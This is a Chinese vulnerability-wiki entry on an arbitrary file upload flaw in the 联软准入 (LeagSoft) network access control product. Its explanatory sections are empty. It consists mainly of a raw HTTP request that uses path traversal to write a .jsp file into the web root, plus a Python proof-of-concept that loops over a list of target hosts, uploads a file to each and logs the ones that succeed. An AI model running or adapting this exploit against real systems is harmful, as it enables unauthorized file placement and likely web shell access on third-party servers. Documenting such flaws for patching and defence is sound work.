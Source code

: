 联软准入 任意文件上传漏洞
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    POST /uai/download/uploadfileToPath.htm HTTP/1.1
    Host: www.0-sec.org:8099
    User-Agent: python-requests/2.22.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 308
    Content-Type: multipart/form-data; boundary=ea8ef2c3b016cd152a651d2799ef2c5c

    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="input_localfile"; filename="111.jsp"
    Content-Type: text/plain

    aaaaa
    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="uploadpath";

    ../webapps/notifymsg/devreport/
    --ea8ef2c3b016cd152a651d2799ef2c5c--

![1.png](/Users/aresx/Documents/VulWiki/.resource/联软准入任意文件上传漏洞/media/rId24.png)

上传路径：

`https://www.0-sec.org/notifymsg/devreport/111.jsp`

![2.png](/Users/aresx/Documents/VulWiki/.resource/联软准入任意文件上传漏洞/media/rId25.png)

### poc

> poc.py

    import requests


    def main(line):
        proxies = {'http': 'http://localhost:8080'}
        # url = 'https://www.0-sec.org/uai/download/uploadfileToPath.htm'
        url = line + '/uai/download/uploadfileToPath.htm'
        url_2 = line.strip() + '/notifymsg/devreport/{}'
        filename = '111.txt'
        files = {
            'input_localfile': (filename, open(filename), 'text/plain'),
        }
        content = {
            'uploadpath': '../webapps/notifymsg/devreport/'
        }
        res = requests.post(url, files=files, proxies=proxies, data=content, verify=False)
        # print(res.text)
        res_2 = requests.get(url_2.format(filename), verify=False)
        if 'xxx' in res_2.text:
            print('ok....')
            with open('ok.txt', mode='a') as f:
                f.write(url_2.format(filename) + '\n')
                print('写入成功...')


    if __name__ == '__main__':
        with open('ip.txt', mode='r') as f:
            for line in f.readlines():
                if line == '\n':
                    pass
                main(line)

参考链接
--------

> https://blog.csdn.net/m0\_48520508/article/details/108790281
